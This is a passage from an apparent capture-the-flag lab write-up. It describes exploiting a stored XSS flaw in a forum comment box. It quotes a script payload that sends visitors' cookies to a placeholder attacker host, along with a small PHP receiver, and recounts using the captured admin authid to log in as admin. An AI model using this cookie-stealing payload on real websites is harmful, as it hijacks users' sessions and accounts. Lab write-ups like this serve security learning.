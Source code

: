 After logging in we get a forum page where we can post a comment and this comment input field was vulnerable to XSS
so I read about how to steal cookies using XSS and found an article mention to use 
```
<script>document.location="http://<machine-ip>/cookie.php?c="+document.cookie</script>
```
the above thing as payload 
and the cookie.php file is very trivial one

```php
<?php
	$cookie=$_GET["c"];
?>
```
I setup a php lister at port 8000 and get the admin authid after a few minutes after submitting the comment 

![](images/thm_advent/79.png)

Now this authid can be used to forge the cookie and login as admin into the forum
That's it for today